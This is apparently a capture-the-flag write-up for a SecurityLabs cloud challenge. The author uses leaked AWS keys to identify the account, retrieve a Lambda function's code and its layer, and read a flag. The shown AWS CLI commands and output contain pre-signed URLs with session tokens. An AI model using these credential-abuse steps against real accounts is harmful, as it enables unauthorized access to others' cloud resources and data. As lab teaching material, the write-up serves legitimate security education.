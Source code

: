 # Challenge 7
---
We are back with another challenge of the week. Our Security team discovered some access keys belonging to a lambda function called `myFunction` in `us-east-2` region. Help them and get the flag.

```
AKIA<redacted>X
XFzn<redacted>/7PS
```

You can DM us the flag at [@securitylabs_](http://twitter.com/securitylabs_) to verify it. We might have some surprise for you!

_For more such interesting labs and content register for beta at [https://securitylabs.tech](https://securitylabs.tech/)_

Have fun hacking cloud with SecurityLabs 🙂



---


## Solution
We are given a key, and a function name to start so lets check out what those tell us.

```
aws sts get-caller-identity

{

 "UserId": "AIDAYQDT3AH74XLQPO7LM",

 "Account": "584358494719",

 "Arn": "arn:aws:iam::584358494719:user/challenge-7"

}
```

Checking if we can get the function and code
```
aws lambda get-function --function-name myFunction --region us-east-2

{

 "Configuration": {

 "FunctionName": "myFunction",

 "FunctionArn": "arn:aws:lambda:us-east-2:584358494719:function:myFunction",

 "Runtime": "python3.8",

 "Role": "arn:aws:iam::584358494719:role/service-role/myFunction-role-pg5cgb2a",

 "Handler": "lambda_function.lambda_handler",

 "CodeSize": 255,

 "Description": "",

 "Timeout": 3,

 "MemorySize": 128,

 "LastModified": "2022-03-22T15:07:47.000+0000",

 "CodeSha256": "cVannvj2y0Gc/qmDl1t6W3IvDil30MgpftnuZXVgR/0=",

 "Version": "$LATEST",

 "TracingConfig": {

 "Mode": "PassThrough"

 },

 "RevisionId": "875b1042-fa6f-49e2-bfd8-36c061b0df61",

 "Layers": [

 {

 "Arn": "arn:aws:lambda:us-east-2:584358494719:layer:challenge-7:1",

 "CodeSize": 378

 }

 ],

 "State": "Active",

 "LastUpdateStatus": "Successful",

 "PackageType": "Zip",

 "Architectures": [

 "x86_64"

 ]

 },

 "Code": {

 "RepositoryType": "S3",

 "Location": "https://awslambda-us-east-2-tasks.s3.us-east-2.amazonaws.com/snapshots/584358494719/myFunction-2b2eb97e-2758-49b2-9981-932d4f2bd567?versionId=SBmsIao3tPl41Kk_IkcHjzkvJYb7QDKW&X-Amz-Security-Token=IQoJb3JpZ2luX2VjELD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMiJHMEUCIQD2U0qI55n6XGP1QiuDwKemoJNuaDeBt9sHI9tSrvOC0QIgbcCQnP0OzbFbhTRsPFZGR9K21YH7JguN7iT6KlzwuZoq%2BgMIORADGgwxMDQyNDYwMTc4NjUiDJxHrs27sLCFO68hIyrXA1Z162rWKeoX7%2FYMlUjGjQ0D%2F3yocsRdvlG2qeFHmGBrKTguL1Nd4tq6bGzM7aQEkrycB%2FtVsv6pwLkA7YRLAkMa1no5cb5CkuvV%2FpO%2Bb%2BIUw01w2AgSdmtTj0sxn8OWg%2FSRJUKit3r%2FvtDPfbp08XlkUsXgObqcSHj0U6EXUiyqnmjNA96Qe7IjxWXU6pM1RvRecxlJHbvQToVE%2BgIko073em0maDGQRg9uP3P9AGlIngB1HHKHArbPQqdoZFsV5j%2FftevUQTIAhdVUrZVIip13pfs2g9ZLs2xOJlLBjLiZTGFnV7WGmopgvT%2BqATXQ8Bu5nVxOW76Pj%2FHVnVLSj%2FekSo2zVRQ2D9fyZZpkNN6z%2BDjhfOmmXLahNN2y9w6NvOi3GCE6%2BL0piUxLBNtm8aFW3i4CnADdma0cGeXQojwsNndUyHXLKbayGxrL5HaS9mB6FlF6C0oaOwT4HARkGcQDPJJdWtdc4bk0yn5Rdp761hTTQMkXANI3RIt%2FxwLlGUY3f%2BxEguxONBf3abxx00ysrEKVcLOAvow3jmG8%2ByH9Gahc5tjHZ3yWsOY1E8qUdOgA8wlexbRuFupZmebr%2BsJVvTqKterrWE231TR7jwfdHNCfYM%2B%2FHjDLzemRBjqlAdl6lugu%2F3Xim%2Bm7Ofo3fnMwvmrF6eBL8XbLWhgLLsJBfUOo2r0opwLeg7zS5V68ytV2IW%2FdRiRAMYLwbdA5sSQF2WcP1XXhb09x1venANgh4lh8U6Gc5xO%2FMywKjtKNCMmgZQ9hSghAC3Sq%2FH0hpRUMrfwb3SHHA2GBtsf4CttmuJ1gk6wpdc%2FLkAAw0sFjgZ2eYL1%2F6ucbO8Upx1IxoLoKWwruYA%3D%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20220323T005357Z&X-Amz-SignedHeaders=host&X-Amz-Expires=599&X-Amz-Credential=ASIARQRML75E5MM2A7UW%2F20220323%2Fus-east-2%2Fs3%2Faws4_request&X-Amz-Signature=3a38603eb915fac13b2f0bf85596e073be7d43cf9631e8298756e49b82ef61b9"
```

Downloading the code
```
from seclabs import get_flag

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': 'Hello from Lambda!'
    }
```

We can see a library/dependencies is being used, these can be supplied to the Lambda via inclusion in the initial zip file or via layers.
Layers allow sharing the libraries amongst multiple Lambda functions. Since we didn't get the library via download the source code, it is likely in a layer.


With the initial get function we see
```
"Layers": [

 {

 "Arn": "arn:aws:lambda:us-east-2:584358494719:layer:challenge-7:1",

 "CodeSize": 378

 }
```

We can grab this and download the code in a similar way to the initial function
```
aws lambda get-layer-version-by-arn --arn arn:aws:lambda:us-east-2:584358494719:layer:challenge-7:1 --region us-east-2

{

 "Content": {

 "Location": "https://awslambda-us-east-2-layers.s3.us-east-2.amazonaws.com/snapshots/584358494719/challenge-7-1652086d-a340-4c0f-be18-125805a77101?versionId=SY3K0bK_kUT0MB9a.g7iHwoUsEVU3ZG7&X-Amz-Security-Token=IQoJb3JpZ2luX2VjELD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMiJHMEUCIQClKUP3%2FkU3zk0df%2FzvpHkWpi9TZj6BWWtRHq%2FQPbMYBAIgf5PItgVPsbJuSPbUiAd8ilmI5bzL09%2Fdg6KHbwNg9lQq%2BgMIORADGgwxMDQyNDYwMTc4NjUiDADk2flhy1crCfiRRSrXA4ihgKJbaiAOF4ISV%2F0JEPSbZz0tGamHTAJmfz0BuWggCXYDinELeh5Im%2BSnC7%2FpyTOCOOWHDykdUungweK%2Fgt%2B96TdFdLXEGp1Q3kqvKdK8LlsmXoDLfi8%2F9DvPHzW3dF8kRQTGzeSAP0eHLxjS3XdK9S%2FG%2BA2Rs%2F7HeDmEfbanhk%2B1rsYpmOaC7nCYF8BA9oAV1nrNwCceCekUcxjGaVrKfXMb0bb0hey4D%2BvyfiWwlDd%2F06bX%2FVZDzOE333D6l1SEKOVtwpLiqG%2FROeNMyMNNCTu%2Bxvp2AUp2xAkK8SHnBMQ9Yv7YwlksNb6Z1TVD9IdXwM8CHvTs73wD26Zkj9dvXeoHwHGxUTTvnnYcFkKUznQOXqsfXWVuKI7h%2BJsAO%2BbDImw1C4gddAVc5LKei0npSOsIUAy8r%2FaCT251EOitonlk%2BqsaBvrNnXhuKe2Hw7oeO2u5CEQfZz%2FNIM%2BtM4nDT4QWFKhdyIJejzWGnJD%2F%2FGdAHTkNYx%2FJYVN4fEgYWtpoLZ7Z2JrW2hYSICE9fXbkPzl4a8REyVujJLbT3X3XmwQ90aW7gHLOc9DlpfBcqlJs48eLPKKUDCUbsFzh2A7DmUpe6S5a9LoqPzKwalP9ziCHIfsnMzC8xemRBjqlAZHRPPdhkE%2FejOwfrTr2lJTGU59YFHXRCMWv4mKiL1%2Fhtng9kQO02bcCYz9FuO3hJydD8toIQuAS0T5dyXowZ8ejYffMt509A4bOCSoJU4LvAE28gTpjGlOASkKr6QUKNgFN7hWfI04NSBgzbQ%2FDBBW5PYUpC2LSRj42pHJwnUlhwUK72hicNjViixOZiyAVVepsi9L%2FCadH1FH9RKWL3%2FS8qRQhsQ%3D%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20220323T010932Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIARQRML75EVFCOIHZ4%2F20220323%2Fus-east-2%2Fs3%2Faws4_request&X-Amz-Signature=72776221037cfe963641b271c9e965bf18d1dde171075bd19701356b71a9d9c6",

 "CodeSha256": "uDGol4FCXfW1uB2Yj9mxTiIbKMNZOXDLR/gleWJOlc4=",

 "CodeSize": 378

 },

 "LayerArn": "arn:aws:lambda:us-east-2:584358494719:layer:challenge-7",

 "LayerVersionArn": "arn:aws:lambda:us-east-2:584358494719:layer:challenge-7:1",

 "Description": "",

 "CreatedDate": "2022-03-22T15:06:44.178+0000",

 "Version": 1,

 "CompatibleRuntimes": [

 "python3.7",

 "python3.9",

 "python3.8"

 ],

 "CompatibleArchitectures": [

 "x86_64"

 ]

}
```

```
cat seclabs.py

def get_flag():

 flag = "flag{<redacted>}\n You can find more interesting challenges and learning materials at SecurityLabs. Register for beta at https://www.securitylabs.tech in case you haven't\n

Have fun hacking cloud with SecurityLabs"



 return flag



def get_hash_flag(flag)

 return flag
```
